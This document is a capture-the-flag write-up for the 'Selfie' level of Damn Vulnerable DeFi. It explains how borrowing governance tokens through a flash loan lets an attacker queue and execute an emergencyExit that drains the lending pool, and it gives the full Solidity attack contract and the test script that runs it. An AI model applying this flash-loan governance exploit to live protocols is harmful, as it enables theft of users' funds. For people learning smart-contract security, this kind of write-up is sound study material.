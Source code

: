 ### [Contracts](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v3.0.0/contracts/selfie)
### Task

>A new cool lending pool has launched! It’s now offering flash loans of DVT tokens. It even includes a fancy governance mechanism to control it.

>What could go wrong, right ?

>You start with no DVT tokens in balance, and the pool has 1.5 million. Your goal is to take them all.

### Observations

- Looks like a solid flashloan pool at the moment, but it inherits and utilises a fancy governance mechanism to execute transactions and function calls.

- There is a strange function `emergencyExit(address)` which sends the pools total funds to the address, as long as the call came from the governance contract.

- That seems like the focus immediately - Find a way to break the governance to call this function with my address.

- To queue an action in the gov contract I need more than 50% of the token total supply.

- Fortunately the flashloan pool holds the same token as used for governance, and the pool holds >50% of the total supply. (1,500,000 / 2,000,000).

- So we should just be able to create a contract to flashloan the maximum, queue a governance action, then repay the flashloan.

- Note. We will have to wait 2 days before the action can be executed.

### Steps 
*Full malicious smart contract is attached in this repo.*
- Create a malicious smart contract (inheriting `IERC3156FlashBorrower`) that calls a maximum flashloan of DVT:
```
function attack() public returns (uint256) {
        require(owner == msg.sender, "Only Owner");

        // Get the maximum tokens to borrow.
        uint256 maxAmount = selfiePool.maxFlashLoan(address(token));
        //Start flashloan for maximum
        selfiePool.flashLoan(
            IERC3156FlashBorrower(this),
            address(token),
            maxAmount,
            ""
        );
        // selfiePool will call `onFlashLoan()`
    }
```

- The `selfiePool` will call to `onFlashLoan` during the flashloan. Within which we must: 
  - take a token snapshot to show our new balance,
  - get the function signature of the `emergencyExit()` function we want to call, with `owner` as param.
  - create a new action to queue on the governance contract, with `selfiePool` as the target address, and the `emergencyExit` data as the data param,
  - repay the loan,
  - return the key to the lender:

```
function onFlashLoan(
        address _initiator,
        address _token,
        uint256 _amount,
        uint256 _fee,
        bytes calldata _data
    ) external returns (bytes32) {
        require(msg.sender == address(selfiePool), "Only Pool");
        //get snapshot to secure our current large balance in token memory
        token.snapshot();

        //get function data to drain contract
        bytes memory data = abi.encodeWithSignature(
            "emergencyExit(address)",
            owner
        );

        //queue action the flashpool as target, no value, function data
        //saves the actionID
        actionID = governancePool.queueAction(address(selfiePool), 0, data);

        //repay the loan
        token.approve(address(selfiePool), _amount);

        //return the key hash
        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }
```

- Create a function to execute the transaction after the 2 days have passed.
```
function drainFunds() external {
        require(owner == msg.sender, "Only Owner");

        //calls to execute the drain function to owner address
        governancePool.executeAction(actionID);
    }
```

- In the Execution JS file:
  - deploy hack contract from the player address.
  - call the `attack()` func from player address.
  - skip forward 2 days.
  - call `drainFunds()` from player address.

```
it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */

        // Deploy Selfie Hack Contract
        const hack = await (await ethers.getContractFactory('SelfieHack', player))
            .deploy(pool.address, governance.address, token.address);

        //call attack function to start flashloan and governance action queue.
        await hack.connect(player).attack();

        //skip forward in time 2 days.
        await ethers.provider.send("evm_increaseTime", [2 * 24 * 60 * 60]); // 2 days

        //call to execute actionID, to drain to attacker
        await hack.connect(player).drainFunds();
    });
```